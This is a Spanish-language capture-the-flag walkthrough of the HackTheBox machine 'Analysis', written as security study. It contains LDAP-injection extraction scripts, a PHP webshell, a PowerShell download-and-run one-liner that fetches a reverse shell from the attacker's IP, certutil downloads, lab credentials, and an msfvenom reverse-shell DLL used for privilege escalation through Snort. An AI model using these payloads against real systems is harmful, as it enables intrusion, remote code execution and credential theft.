

## Enumeración

Esta máquina la verdad es que la enumeración es un martirio, no tenemos credenciales y NetExec no reporta nada, no nos deja enumerar nada sin credenciales. Comenzamos como es costumbre viendo que puertos tenemos abiertos.


Nos enfrentamos a un directorio activo, tenemos el dominio y podemos ver en que el puerto 80 está abierto. al intentar entrar solo con la IP, nos reportara un 404 not found. Así que tendremos que usar virtual hosting. Añadimos _analysis.htb_ a nuestro archivo _/etc/hosts_ y así nuestra máquina pueda resolver el nombre del dominio. 

Poniendo _http://analysis.htb_, entraremos a la pagina web.

###### Enumerando la pagina web


A primera vista no hay indicios de que use tecnologías vulnerables, así que empecemos a fuzzear, yo siempre suelo utilizar [ffuf](# 'Herramienta de fuzzing HTTP rápida para descubrir rutas, virtual hosts y parámetros usando wordlists, con concurrencia y filtros por código/longitud.').

```bash
ffuf -u 'http://analysis.htb/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
Esto nos devolverá las posibles rutas existentes.


Al intentar entrar a cualquiera de estas rutas, el codigo de estado que nos reporta es un 403 Forbidden. Viendo que no hay nada de lo que pueda tirar procedo a enumerar subdominios.

```bash
ffuf -u 'http://analysis.htb' -H 'Host: FUZZ.analysis.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
```

Aquí nos encontramos con  un subdominio llamado internal, que también tendremos que hacer virtual hosting para que nuestra máquina resuelva el host, una vez lo hemos añadido al _/etc/hosts_ nos topamos con que la respuesta del servidor tiene un codigo 403, pero esto puede ser porque no estamos en una ruta especifica así que seguiremos haciendo fuzzing a ver que posibles rutas tiene este subdominio.

```bash
ffuf -u 'http://internla.analysis.htb/FUZZ' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
```


Volvemos a entrar a las rutas que nos ha reportado, pero nada, así que probemos si podemos seguir haciendo fuzzing, utilice la siguiente linea de comando.

```java
ffuf -u 'http://internal.analysis.htb/Users/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
Pero no me reportaba nada, pero con ffuf podemos indicarle que busque por rutas posibles que sean .php de la siguiente manera.

```bash
ffuf -u 'http://internal.analysis.htb/Users/FUZZ.php' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
```
La ruta _list.php_ que nos acaba de reportar, pide que le pasemos un parametro, así que también vamos a fuzzear el parametro a ver hasta donde llegamos.

```java
ffuf -u 'http://internal.analysis.htb/users/list.php?FUZZ=test' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -fs 17
```
Le hemos añadido el -fs para que no nos reporte respuestas que contengan 17 de Size. El parametro encontrado se llama  name y en la pagina encontraremos una especie de lista. No se para que sea.


Hemos descubierto bastantes... así que ahora seguiremos con los demas rutas existentes, para ahorrar tiempo la unica que por ahora nos vale es la _employees_, que siguiendo el metodo utilizado con Users, descubrimos la ruta _login.php_, intente usar inyección SQL o baypassearla, pero ninguno funciono así que trabajaremos con lo que tenemos.



### Inyección Ldap

Inspeccionando la pagina probé si era vulnerable a injecciones sql y daba un fallo, mirando un poco vi que el fallo se originaba en los () esto quiere decir que se acontece una [inyección LDAP](# 'Vulnerabilidad donde entrada no saneada modifica filtros LDAP permitiendo consultas o cambios no autorizados; mitigarse escapando caracteres especiales y usando APIs/allowlists.'), para este tipo de vulneravilidades no existe una automatización y si lo haces manualmente te puedes tirar la vida haciendo lo. Así que vamos a craftearnos un pequeñito script para automatizar la explotación. 

##### Creando el script

```python
#! /usr/bin/env python3

import requests
import signal
import sys 
import re
import string
from termcolor import colored

def exit(a,b):
    print(colored(f"\nSalida exitosa.....", 'red'))
    sys.exit(0)


signal.signal(signal.SIGINT, exit)
url= 'http://internal.analysis.htb/users/list.php?name='
characters= string.ascii_lowercase

def injection():
    
    print()
    for character in characters:

        r = requests.get(url+character+'*')
        content= r.text
        username= re.findall(r'<strong>(.*?)</strong>', content)[0]
        if "CONTACT_" not in username:
            print(colored(f"Username: ", 'yellow')+username)


if __name__=='__main__':
    
    injection()
```

Usando la libreria requests de python podemos hacer la peticion HTTP y jugando con el bucle y regects podemos filtar los usuarios por fin.


Ya tenemos los usuarios... pero ya está, no tenemos nada mas. Así que vamos a creearnos otro script para ver si podemos listar algo. No tenia mucha idea de como funcionan las peticiones LDAP, pero teniendo ya un poco de conocimiento de como funcionan las sqli,  podemos hacernos una idea de lo que podemos conseguir. Así que me puse a buscar un poco de informacion su estructura y eso.

- Primero entendamos como se establece una inyección LDAP. La petición hace un llamado a la filtracion y hace un concatenación, entonce spor eso nos permite hacer la inyección
    `filter = "(&(objectClass=user)(name=" + user_input + "))"i`

- Nosotros nos estamos aprovechando de este error y concatenamos los atributos que queremos, podemos probar con los que encontré en está pagina [Atributos](https://help.bizagi.com/platform/es/index.html?ldap_attributes.htm) buscando _Ldap atributos comunes_.


```python


#! /usr/bin/env python3

import requests
import signal
import sys 
import re
import string
from termcolor import colored
from pwn import *

def exit(a,b):
    print(colored(f"\nLeaving.....", 'red'))
    sys.exit(0)


signal.signal(signal.SIGINT, exit)
url= 'http://internal.analysis.htb/users/list.php?name='
characters= string.ascii_letters + string.digits 
names = ['amanson', 'badam', 'jangel', 'lzen', 'technician']
parameters= ['company', 'description', 'displayName', 'dc']

def injection():
     
    log1 = log.progress("Strating Ingection")
    log1.status("Starting :S")
    log2 = log.progress("Analyzing")
    print()
    
    for name  in names:
        print()
        for parameter in parameters:
            log3 = log.progress("Name and Parameter:")
            log3.status(f"{name}  {parameter}")
            for character in characters:
                log1.status(url+name+f")({parameter}={character}*")
               
                r = requests.get(url+name+f")(description={character}*")
                username= re.findall(r'<strong>(.*?)</strong>', r.text)[0]
               
                if  name in username: 
                    log2.status(character)
                    print(colored(f'Discovered parameter {parameter} ', 'blue'))
                    break
                    sys.exit(1)

if __name__=='__main__':
    
    injection()
```

Con esto hemos probado que parametros comunes pueden existir y el unico usuario que tiene es technician, así que listemos cual es el valor de estos parametros.


- Buscando el contenido, por lo general en la vida real no suele encontrar se esto, pero al ser un cft podemos intuir que hay cosas escondidas, de todas los parametros que nos encontramos ahi podemos intuir que hay algo en la descripcion, así que modifique el codigo de está manera, para que me chivara la contraseña.

```python
#! /usr/bin/env python3

import requests
import signal
import sys 
import re
import string
from termcolor import colored
from pwn import *

def exit(a,b):
    print(colored(f"\nLeaving.....", 'red'))
    sys.exit(0)


signal.signal(signal.SIGINT, exit)
url= 'http://internal.analysis.htb/users/list.php?name='
characters= string.ascii_letters + string.digits + '_-#%&*' 
name = "technician"
parameter = "description"

def injection():
     
    content = ""
    log1 = log.progress("Strating Ingection")
    log1.status("Starting :S")
    log2 = log.progress("Analyzing")
    print()

    for i in range(14):
        for character in characters:
   
            try:
                log1.status(url+name+f")({parameter}={content}{character}*")
                r = requests.get(url+name+f")(description={content}{character}*")
                username= re.findall(r'<strong>(.*?)</strong>', r.text)[0]
               
                if  name in username: 
                    content+=character
                    log2.status(content)
                    break
            except:
                content+=character
                log2.status(content)
                break

    print(colored(f"Analysis completed", "green"))

if __name__=='__main__':
    
    injection()
```
Añadí los caracteres especiales ya que lo probé sin ellos y no funcionaba, el try también lo puse porque o sino daba error cuando llegaba al carácter `*`.... entraba en conflicto así que esto nos hara tener una excepcion controlada.


## Estableciendo ReverseShell

Vale... primera credencial encontrada, personalmente fue un incordio encontrar la, crear el script me llevo a comerme mucho la cabeza, pero conseguimos un buen resultado, para empeza a enumerar que podemos hacer, porque despues de varias horas solo he conseguido esto.

- ##### SMB Client <br>
```bash
nxc smb 10.10.11.250  -u 'technician' -p '97NTtl*4QP96Bv' --shares
```


No hay nada interesante, así que seguimos con la enumeración, probemos con WinRm.

- ##### WinRm <br>
```bash
nxc winrm 10.10.11.250  -u 'technician' -p '97NTtl*4QP96Bv'
```


- ##### Ldapdomaindump

Listando un poco los usuarios que tineen acceso remoto y viendo un poco como va todo, vemos que el cervidor está en fraces y com objetivo nos vamos a fijar nos en estos dos sujetos por si acaso.


No hay conexion remota ni hay nada engeneral, pero podemos intentar ingresar al login que habiamos encontrado anterioirmente. con las credenciales.
- _"technician@analysis.htb_ y  _97NTtl*4QP96Bv"_


Vale ya tenemos un indicio para hacer cositas, echando un vistazo por la web, podemos ver algunos tickets en los que nos hacen referencia al porque no pudimos generar TGT, errores sql y poco mas nada que nos revele informacion relevante, pero hay un apartado importante en el cual podemos subir archivos, así qeu vamos a buscar por internet una reverse shell para windows


Como el servidor interpreta php vamos a ver si podemos colarle una webshell y poder jugar con ella. 

```php
<?php
  system($_GET['cmd']); 
?>
```


Listo ya tenemos ejecucion remota de comandos pero me interesa establecer una reverse shell, a diferencia de los servidores linux, con windows tenemos que hacer uso de [nisHang](# 'Framework en PowerShell con scripts y payloads para post-explotación, pentesting y red team.')

#### Nishang

Haciendo uso de nuestro framwork de preferencia estableceremos una reverse shell, como lo haremos, ya que tiene el defender activo haremos uso de one liner IEX(New-Object Net.WebClient).DownloadString(to host) para que no sea reconocido por este. Pasos a seguir.

- Vamos a clonarnos el [Repositorio](https://github.com/samratashok/nishang)
- Una vez tenemos el repositorio, ubicaremos el archivo `Invoke-PowerShellTcp.ps1` y modificaremos su contenido.


En la imagen anterior podemos ver como nos indica el uso de este script en powershell, para poder usarlo con IEX  y ejecutar el DownloadString así que retocaremos el archivo .ps1, haremos que se invoque directamente pasando le nuestra IP y puerto en el que estaremos escuchando con **nc** y con **rlwrap -cAr** le asignaremos un historial y autocompletado.


Esto le indicara a script que invoque la funcion y con esto ya podremos indicar en nuestra WebShell que queremos que nso haga un downloadString sobre el archivo, dentro de la carpeta de las shells, montaremos un servidor web con python y en nuestro archivo _cmd.php_ hubicado en _uploads_ pondremos todo nuestro onliner

`http://internal.analysis.htb/dashboard/uploads/cmd.php?cmd=powershell%20IEX(New-Object%20Net.WebClient).DownloadString(%27http://10.10.14.11/Invoke-PowerShellTcp.ps1%27)`

Accedemos com el usuario _analysis\svc_web_ y no vemos gran cosa a siq ue vamos a subir el winpeas a ver si nos encontramos algo para poder acceder como otro usuario o podamos salir de este usuario que no puede hacer absolutamente nada 

#### WinPeas  

Descargamos el [WinPeasx64](https://github.com/peass-ng/PEASS-ng/releases/tag/20250904-27f4363e) desde el repesitorio, ahora la subiremos con [Certutil](# 'Utilidad de línea de comandos para gestionar e inspeccionar certificados y almacenes PKI (Windows/NSS), y también usada para operaciones como codificar/decodificar y volcar certificados.'), montamos de nuevo nuestro servidor web con python.

Con nuestro servidor web montado donde está el archivo usaremos certutil de la siguiente manera.

```
certutil  -urlcache -split -f http://10.10.14.11/winPEASx64.exe
```
Lo ejecute pero no veia la salida del archivo completa así que me quede algo perdido, no veia nada referente, pero luego me di cuenta que lo habia descargado directamente en la carpeta uploads, así que está subido en la pagina así que voy a ir a ver lo.


No se veia nada... así que tome la desicion de descargarlo :(.


### Accediendo como jdou

Jejejejeje nos ha reportado unas credenciales que detecto en el Autologon.


Cuando enumeramos con Ldapdomaindump, descubrimos que _john doe_ con el nombre de usuario tenia acceso remoto,entremos como el usuario jdoe via WinRm.

```python
nxc winrm 10.10.11.250  -u 'jdoe' -p '7y4Z4^*y9Zzj'
```


Ya estando dentro del sistema podremos usar de nuevo el WinPeas para poder ver algo, como nos conectamos con Evil-WinRm podemos hacer un update y el nombre del archivo, solo que tienes que abrir lo en el directorio donde está el archivo _WinPeas_

```
*Evil-WinRM* PS C:\Users\jdoe\Desktop> upload winPEASx64.exe
```


Parece que es posible escalar privilegios abusando de Snort, así que vamos a analizar a ver que podemos sacar de ahi. No tengo ni idea de como aprovechar me de eso, así que vamos a buscar informacion de [snort](http://manual-snort-org.s3-website-us-east-1.amazonaws.com/). Aquí encontramos algo bastante curioso, podemos crear modulos y subirlos, como es habitual podemos crear lo con msfvenom, vamos yo siempre creo los módulos maliciosos con el. Pero primero veamos donde tenemos que añadir el modulo.

Esto me hubiese llevado bastante tiempo, pero con un poco de scripting en powershell, podemos filtrar por `dynamicpreprocessor` que hemos encontrado en la documentacion de snort.


```powershell
*Evil-WinRM* PS C:\Snort\etc> type *.conf | Select-String "dynamicpreprocessor"

dynamicpreprocessor directory C:\Snort\lib\snort_dynamicpreprocessor
```
Ahí tenemos el directorio donde podemos colar nuestro modulo maliciosos

## Escalando privilegios.

#### Creando el Modulo Malicioso.

Con msfvenom creamos nuestro modulo malicioso, solo tienes que cambiar el LHOST por tu IP y el LPORT por tu puerto en el que te pongas en escucha.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=888 -f dll -a x64 -o atr4x.dll
```
Luego solo es cuestion de subir el archivo.

```
*Evil-WinRM* PS C:\Snort\lib\snort_dynamicpreprocessor> upload atr4x.dll
```
Solo es cuestion de ponernos en escucha y esperar... Obtendremos la reverse shell.

```
rlwrap -cAr nc -nlvp 888
```


Solo tendremos que mirar en el desktop y obtendremos nuestra flag.

## FIN
